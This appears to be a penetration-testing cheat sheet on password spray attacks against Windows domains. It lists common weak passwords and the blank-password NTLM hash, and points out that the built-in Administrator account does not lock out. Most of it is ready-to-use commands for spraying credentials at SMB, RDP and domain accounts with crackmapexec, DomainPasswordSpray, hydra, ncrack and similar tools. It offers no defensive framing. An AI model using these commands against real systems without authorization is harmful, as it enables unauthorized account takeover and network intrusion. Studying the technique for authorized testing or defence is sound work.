 # Password Spray Attack

### Password spray attacks use one password against multiple users, usually gathered in a users wordlist.

### They are also preferred from brute-force attacks due to prevention of account lockouts.

## TIP: The builtin Administrator account (RID:500) cannot be locked out of the system no matter how many failed logon attempts it accumulates.

#### Tools: hydra, RDPassSpray.py, MailSniper, SprayingToolkit, Metasploit (auxiliary/scanner/smb/smb_login) example

### Most of the time the best passwords to spray are :

 - P@ssw0rd01 , Password123 , Password1 , Hello123 , mimikatz

 - Welcome1 / Welcome01

 - $Companyname1 : $Microsoft1

 - SeasonYear : Winter2019* , Spring2020! , Summer2018? , Summer2020 , July2020!

 - Default AD password with simple mutations such as number-1, special character iteration (*,?,!,#)

 - Empty Password (Hash:31d6cfe0d16ae931b73c59d7e0c089c0)

## Spray a pre-generated passwords list

#### 1) Using crackmapexec and mp64 to generate passwords and spray them against SMB services on the network.

    crackmapexec smb 10.0.0.1/24 -u Administrator -p '(./mp64.bin Pass@wor?l?a)'

#### 2) Using DomainPasswordSpray to spray a password against all users of a domain https://github.com/dafthack/DomainPasswordSpray

    Invoke-DomainPasswordSpray -Password Summer2021! (Automatically creates a userlist from the users in the domain and sprays the password)

    Invoke-DomainPasswordSpray -UserList users.txt -Domain domain-name -PasswordList passlist.txt -OutFile sprayed-creds.txt

#### 3) SMBAutoBrute https://github.com/Shellntel/scripts/blob/master/Invoke-SMBAutoBrute.ps1

    Invoke-SMBAutoBrute -UserList "C:\ProgramData\admins.txt" -PasswordList "Password1"

## Spray passwords against the RDP service

#### 1) Using RDPassSpray to target RDP services https://github.com/xFreed0m/RDPassSpray

    python3 RDPassSpray.py -u [USERNAME] -p [PASSWORD] -d [DOMAIN] -t [TARGET IP]

#### 2) Hydra

    hydra -t 1 -V -f -l administrator -P /usr/share/wordlists/rockyou.txt rdp://IP_ADDRESS

#### 3) ncrack

    ncrack –connection-limit 1 -vv --user administrator -P password-file.txt rdp://IP_ADDRESS

## BadPwdCount Attribute

### The number of times the user tried to log on to the account using an incorrect password. A value of 0 indicates that the value is unknown.

    crackmapexec ldap 10.0.2.11 -u 'username' -p 'password' --kdcHost 10.0.2.11 --users

